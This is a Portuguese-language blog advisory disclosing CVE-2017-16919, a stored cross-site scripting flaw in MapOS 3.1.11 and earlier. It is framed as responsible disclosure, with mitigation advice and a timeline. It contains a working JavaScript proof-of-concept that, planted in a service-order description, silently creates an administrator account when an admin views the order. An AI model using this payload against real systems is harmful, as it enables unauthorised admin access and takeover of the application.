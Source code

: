 ```yaml
---
title: "[CVE-2017-16919] MapOS Stored Cross-site Scripting (XSS) - [PT-BR]"
layout: post
date: '2017-11-23 13:03:55'
description: 'Vulnerabilty: MapOS Stored Cross-site Scripting (XSS)'
image: '/assets/images/logo.png'
tags:
- poc
- cve
author: Alisson Bezerra
---
```


MapOS é um sistema gratuito de [código aberto](https://github.com/RamonSilva20/mapos){:target="_blank" rel="noopenner noreferrer"} para controle de ordens de serviço.

Neste artigo descrevemos uma falha de cross-site scripting existente nas versões 3.1.11 ou inferiores de MapOS que permite, por exemplo, a um atacante executar comandos quando um administrador visualiza os dados de um cliente que possui ordem de serviço em aberto.

Para explorar a falha, um usuário malicioso pode inserir um código javascript no campo *Descrição da Ordem de Serviço*. Esse código malicioso será executado quando a Ordem de Serviço for visualizada pelo usuário administrador do sistema. Dessa maneira a falha pode ser explorada de diversas maneiras, uma das quais inclui inserir um usuário arbitrário no sistema com privilégios de administrador.

### Proof of Concept

A PoC abaixo mostra os passos necessários para explorar a falha e inserir um usuário arbitrário no sistema com privilégios de administrador:

1.Registrar um novo cliente em http://vulnhost/mapos/index.php/mine

2.Logar com o cliente registrado e adicionar uma nova ordem de serviço, no campo descrição deve ser inserido o código abaixo:
```html
<script>
var dados = "nome=hacker&rg=111&cpf=12312312300&rua=av&numero=123&bairro=centro&cidade=qualquer&estado=SP&email=email%40hacker.com&senha=123456&telefone=111&celular=&situacao=1&permissoes_id=1";
var url = "http://vulnhost/mapos/index.php/usuarios/adicionar";
var xhr = new XMLHttpRequest();
xhr.open("POST", url, true);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send(dados);
</script>
```

3.Quando o usuário administrador visualizar a nova ordem de serviço, o script acima será executado e um novo usuário será criado no sistema com o e-mail email@hacker.com e a senha 123456

### Mitigação
A falha pode ser corrigida realizando uma validação prévia nos dados inseridos na ordem de serviço. A criação de usuário (e outras transações da aplicação) podem ser hardenizadas com uso [*nonces*](https://pt.wikipedia.org/wiki/Nonce){:target="_blank" rel="noopenner noreferrer"} por request para evitar [ataques de CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_%28CSRF%29){:target="_blank" rel="noopenner noreferrer"}.

Há diversos materiais a respeito de como acontece e [como podem ser evitados ataque de cross-site scripting](https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet){:target="_blank" rel="noopenner noreferrer"}.

### Responsible Disclosure
- 11/11/2017 - Descoberta da falha
- 21/11/2017 - Notificação da falha
- 21/11/2017 - Confirmação da correção
- 22/11/2017 - CVE-2017-16919

